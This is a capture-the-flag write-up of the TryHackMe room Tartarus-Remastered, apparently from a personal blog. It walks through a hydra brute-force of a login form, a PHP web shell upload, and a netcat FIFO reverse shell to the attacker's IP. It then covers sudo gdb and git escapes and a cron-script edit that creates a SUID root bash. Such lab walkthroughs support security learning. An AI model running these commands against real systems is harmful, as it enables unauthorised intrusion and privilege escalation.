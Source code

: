 ```yaml
---
title: "Tartarus_writeup"
date: 2020-10-28T10:10:38-04:00
draft: false
toc: true
featured: true
summary: "Welcome to another writeup, this time we hack Tartarus-Remastered another TryHackMe room. Let's see if we get root during the lunch break at work XD"
images:
  - "img/tartarus_cover.jpg"
cover: "img/tartarus_cover.gif"
tags:
  - hacking
  - tryHackme
  - writeups
  - tartarus
---
```


# Tartarus-Remastered TryHackMe Room

Welcome back! Today I have another writeup. This time I went for a just-released room on TryHackMe called `Tartarus Remastered`. I hope you enjoy it!


- Please visit This room on TryHackMe by [clicking this link](https://tryhackme.com/room/gamingserver).
- **PLEASE NOTE:** Passwords, flag values, or any kind of answers to the room questions were intentionally masked as required by THM writeups rules. 


## Getting Started

I'll be using once again `autorecon <IP>` to scan this box. So leave that running or perform manual scans if you'd like. I'm going through this room on my lunch break at work so don't have much time XD.


## Checking Autorecon Results and gaining access.

If we look at Gobuster's results, we see a `robots.txt` file that we can access:

![](https://i.imgur.com/8tlOnnV.png)

If we look at that directory in `disallowed` entry:

![](https://i.imgur.com/k8M3EWs.png)


If we look at the FTP (nmap scan shows anonymous login is enabled), we can see something interesting:

![](https://i.imgur.com/yMT7CDr.png)

There are directories named `...` that we can access and inside there is a file.

If we check that file we see another directory is mentioned:

![](https://i.imgur.com/aD9j2RN.png)

We get a login form. This is getting quite familiar, we can try the same we did for the room called `Hydra`. Check that [here](https://www.tzero86bits.tk/posts/hydra_writeup/).

We need to construct a POST request attack with hydra. 

/sUp3r-s3cr3t

`hydra -l userid -P credentials.txt 10.10.61.206 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect" -V -F -u`

![](https://i.imgur.com/eYR3wxO.png)



We can also let gobuster now we have a new directory that it can explore:

```sh
gobuster dir --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.61.206/sUp3r-s3cr3t/ -x php,txt,html,sh,cgi
```

![](https://i.imgur.com/guZOPm4.png)

If we brute-force the login request we get the following:

![](https://i.imgur.com/DJnKg3T.png)

And if we login we get an upload form:

![](https://i.imgur.com/HqND3cF.png)

We can try to upload a semi-interactive php-bash and see if we can access that:

![](https://i.imgur.com/Ma8sKV5.png)

Now if we navigate back to that `images/uploads/` folder, we see our file is there:

![](https://i.imgur.com/ukMGnE0.png)

If we go ahead and click on that file we get our PHP-Bash working:

![](https://i.imgur.com/ytecqGV.png)

If we navigate to the home folder, we can access `d4rckh` folder and cat out the user flag:

![](https://i.imgur.com/ia7SGaw.png)

Ok so now we need to go get the root flag. Even though the semi-interactive shell we got is fine. I would like to have better access from my own terminal so let's try to get a reverse shell.

We start a `nc -nlvp 2112` in our terminal and then we try to fire a connection in the php-bash file back to our machine:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.0.34 2112 >/tmp/f`


Now that we have a reverse shell, we can navigate a bit more comfortable. If we take a look at the other folder at the home directory we see another file that mentions `git`.

![](https://i.imgur.com/vCfgrjw.png)

If we run a `sudo -l` we see that the user we have can run `gdb` as sudo. Let's check GTFObins to see if we have a way of exploiting that.

It seems there is a way to get a reverse shell, lets try that:

![](https://i.imgur.com/Bxp6Jwb.png)

Maybe I'm doing something wrong but `gdb` did not work and I still was `www-data` user after trying all the options listed on GTFbins. Let's check if we have any running cron jobs:

![](https://i.imgur.com/mBQUZT2.png)

Indeed we have and, it is a file I saw inside `d4rckh`'s folder. Since that cron job is running as root, we can try to edit it so when it runs it spaws a privileged shell back to us.

But first we really need to get gdb working so we can switch user. The idea here is to impersonate the other user `thirtytwo` and see what he can run as sudo, and if we recall the file we found earlier we know that `d4rckh` fixed the access to git for him. So we can assume `thirtytwo` could have privileged access to git executable.

After checking a while on that gdb binary, it seems we can try it as follows:

`sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex qu`

That seems to work and we are now the expected user which, as we thougth has access to git.

![](https://i.imgur.com/whF3tz3.png)

Let's check back on GTFObins if we have anything on git to get root.

We can try to run `python -c 'import pty;pty.spawn("/bin/bash");'` to get a TTY shell before we try to get root.

NOTE: also run `export TERM=xterm` to get a more responsive terminal that for instance is able to `clear` the screen.

Now let's try some of the commands suggested by GTFObins. If we check the `Sudo` section we get a few to try. The first one does not work at all in this case. Let's check the second:

`sudo git -p help config` and `!/bin/sh`

Still we need to adjust the command a bit, we need to explicitly set the user we want to switch to:

`sudo -u d4rckh git -p help config`

That seems to work and we are now the user `d4rckh`

![](https://i.imgur.com/Vh8mDXQ.png)

Ok now let's check that `cleanup.py` file that's running as a cron job. And see if we can edit it to get us root.

> NOTE: To make sure I don't lose the original file, I ran `cp cleanup.py cleanup.py.bak`

Now let's see if we can edit the file with nano:

Even though we got an error before nano opens, we are able to edit the file. We make the changes to the command being executed so it creates a copy of `bash` with privileges that we can execute later in one of our accessible directories:

![](https://i.imgur.com/sQ9FYjp.png)

We save the file and we just wait, since the file is tied to a cronjob we need to wait for it to get executed:


If you notice the command tells the system to copy bash into a `tmp/rootbash` folder. 

> NOTE: Credits to @ratiros01 on that command, I was just failing at making that work until I came across his idea for that in one of his posts.

Let's navigate to that temp folder and see if we get our bash copied. We do, it worked. Now we need to run that file, however we need to make use of the switch `-p` so the binary would not drop his privileges. Otherwise it would run with the permissions our current user has.

![](https://i.imgur.com/LtTBQvp.png)

It worked great and we are now root!, let's grab that flag and complete the room.


![](https://i.imgur.com/eXiuc6f.png)

I hope you enjoyed this room as much as I did, thanks again to @ratiros01 for his post that helped me when I got stuck.


Happy hacking and thanks for stopping by!

{{< thm_badge >}}



